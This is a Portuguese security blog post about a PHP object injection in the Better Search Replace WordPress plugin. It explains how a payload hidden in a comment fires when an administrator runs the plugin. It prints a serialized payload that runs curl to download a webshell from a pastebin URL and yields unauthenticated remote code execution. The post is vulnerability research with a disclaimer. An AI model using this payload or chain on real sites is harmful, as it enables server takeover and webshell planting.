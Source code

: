 ```yaml
---
layout: post
title: PHP Object Injection no Better Search Replace
permalink: /web/php-object-injection-better-search-replace
---
```


**Atenção**: A técnica demonstrada neste artigo tem o propósito de ser um material educativo, a exploração foi feita em um ambiente controlado. Não realize esta exploração sem a autorização do dono do servidor, pois isto poderá resultar em um crime!

![](/imgs/php-object-injection-better-search-replace/plugin_info.png)

O Better Search Replace é um plugin que possui a função de fazer exatamente o que o nome dele sugere, ele busca uma string na sua base de dados do Wordpress e substitui por outra string que você forneceu.

Sinceramente não entendo porque é tão usado, segundo o Wordpress, existe **mais de 1 milhão de instalações ativas**.

![](/imgs/php-object-injection-better-search-replace/search.png)


![](/imgs/php-object-injection-better-search-replace/serialization.png)

Dentre suas funcionalidades, o plugin consegue realizar o processamento de objetos PHP serializados, então resolvi fazer Code Review deste plugin.

Depois de algum tempo na análise estática, encontrei o [trecho de código abaixo](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php
), ele é responsável por realizar a deserialização. Achei interessante, logo comecei a análise dinâmica.

![](/imgs/php-object-injection-better-search-replace/func_unserialize.png)

Infelizmente não encontrei um trecho de código que possibilitasse iniciar a POP Chain utilizando o próprio plugin (que por acaso tornaria a vulnerabilidade bem mais crítica) :disappointed:. Por sorte, o Wordpress permite que um plugin consiga acessar as classes ou funções que foram definidas em outros plugins, ou seja, não existe um "sandbox". Consequentemente, isto abre a possibilidade de iniciar a POP Chain utilizando o código-fonte de outros plugins.

Para facilitar a minha vida, criei o plugin ["WP Object Injection Proof of Concept"](https://github.com/growlnx/WP-Object-Injection-PoC), este plugin possibilita o ataque de **Reutilização de Código**, me poupando tempo com **POP Chains**.

![](/imgs/php-object-injection-better-search-replace/plugin_vuln.png)

Ele se resume a nessa pequena classe com o método mágico ["__wakeup"](https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.wakeup). Caso deseje reproduzir em um cenário mais aproximado da realidade, recomendo que veja o [PHPGGC](https://github.com/ambionics/phpggc), pode te ajudar.

Meu objetivo neste momento é fazer download de uma webshell e conseguir a RCE desautenticado. O payload abaixo fará o download de um arquivo do [pastebin](https://pastebin.com/raw/E3cNN0Zy) usando o [curl](https://curl.haxx.se/). 

{% highlight php %}
O:2:”OI”:2:{s:3:”cmd”;s:48:”curl -o ws.php https://pastebin.com/raw/E3cNN0Zy“;s:3:”fcn”;s:6:”system”;}
{% endhighlight %}

Agora só resta saber onde devemos realizar a injeção... que tal nos comentários?

![](/imgs/php-object-injection-better-search-replace/tabela.png)

O plugin permite que o usuário realize o processamento na tabela de comentários, isso é bem legal, pois podemos injetar o payload nos comentários e esperar a iteração do administrador no plugin **Better Search Replace** para disparar a substituição.

![](/imgs/php-object-injection-better-search-replace/comment_evil.png)

Como pode se observar na imagem acima, o administrador é notificado a respeito do comentário, logo, também será necessário contar a sorte.

![](/imgs/php-object-injection-better-search-replace/request_admin_search.png)

Se o payload for interpretado com sucesso, o download de uma simples webshell será realizado no diretório "wp-admin".

![](/imgs/php-object-injection-better-search-replace/rce.png)

*Voilà*!, foi possível obter uma unauth RCE através de uma deserialização insegura.

## Referências

- [better-search-replace/trunk/includes/class-bsr-db.php](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php)
- [OWASP - PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [PHP Magic Methods](https://php.net/manual/en/language.oop5.magic.php)
- [Blackhat - Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)